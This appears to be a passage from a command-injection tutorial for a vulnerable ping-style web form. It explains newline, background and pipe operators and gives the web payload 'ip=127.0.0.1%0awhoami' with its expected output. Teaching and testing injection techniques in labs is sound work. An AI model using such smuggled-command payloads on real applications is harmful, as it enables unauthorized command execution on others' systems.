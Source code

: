 **✅ Simpler Payloads:**
- No need for valid first command
- Shorter injection strings
- Less encoding complexity

**✅ Error Exploitation:**
- Leverages application error conditions
- Works when input validation partially succeeds
- Useful for blind injection scenarios

---

## Comprehensive Operator Testing

### Remaining Operators Analysis

Based on our initial operator reference, let's test the three remaining operators:

**1. New Line (`\n` / `%0a`)**
**2. Background (`&` / `%26`)**  
**3. Pipe (`|` / `%7c`)**

### New Line Operator (\n)

**Characteristics:**
- Creates separate command line
- **Both commands execute** independently
- **Platform universal** - works on all systems

**Local Testing:**
```bash
# Using literal newline (in script or heredoc)
ping -c 1 127.0.0.1
whoami
```

**Web Payload:**
```http
ip=127.0.0.1%0awhoami
```

**Expected Behavior:**
```
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.074 ms
--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
www-data
```

### Background Operator (&)

**Characteristics:**
- Runs first command **in background**
- **Second command executes immediately**
- **Output may appear in reverse order**
